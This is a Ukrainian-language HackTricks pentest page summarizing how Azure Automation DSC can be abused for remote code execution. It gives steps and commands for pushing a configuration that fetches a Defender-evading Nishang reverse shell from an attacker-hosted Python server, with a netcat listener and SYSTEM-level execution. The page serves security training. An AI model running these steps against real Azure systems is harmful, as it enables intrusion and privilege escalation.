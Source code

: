 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Перегляньте повну публікацію за адресою:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Резюме підготовки інфраструктури віддаленого сервера (C2) та кроки

#### Огляд

Процес передбачає налаштування інфраструктури віддаленого сервера для розміщення модифікованого вантажу Nishang `Invoke-PowerShellTcp.ps1`, названого `RevPS.ps1`, призначеного для обходу Windows Defender. Вантаж подається з машини Kali Linux з IP `40.84.7.74` за допомогою простого HTTP-сервера на Python. Операція виконується через кілька кроків:

#### Крок 1 — Створення файлів

- **Необхідні файли:** Потрібні два скрипти PowerShell:
1. `reverse_shell_config.ps1`: Файл Desired State Configuration (DSC), який отримує та виконує вантаж. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Скрипт для публікації конфігурації на VM, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Налаштування:** Змінні та параметри в цих файлах повинні бути адаптовані до конкретного середовища користувача, включаючи імена ресурсів, шляхи до файлів та ідентифікатори сервера/вантажу.

#### Крок 2 — Стиснення файлу конфігурації

- Файл `reverse_shell_config.ps1` стискається в `.zip` файл, що робить його готовим для передачі до Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту зберігання та завантаження

- Стиснутий файл конфігурації завантажується в заздалегідь визначений контейнер зберігання Azure, azure-pentest, за допомогою cmdlet Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box

- Сервер Kali завантажує корисне навантаження RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Скрипт редагується для вказання цільової Windows VM та порту для зворотного шелу.

#### Крок 5 — Опублікувати файл конфігурації

- Файл конфігурації виконується, в результаті чого скрипт зворотного шелу розгортається у вказаному місці на Windows VM.

#### Крок 6 — Хостинг корисного навантаження та налаштування прослуховувача

- Запускається Python SimpleHTTPServer для хостингу корисного навантаження, разом з прослуховувачем Netcat для захоплення вхідних з'єднань.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Заплановане завдання виконує корисне навантаження, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває численні можливості для подальших дій, таких як витік облікових даних або розширення атаки на кілька ВМ. Посібник заохочує до подальшого навчання та креативності в сфері Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
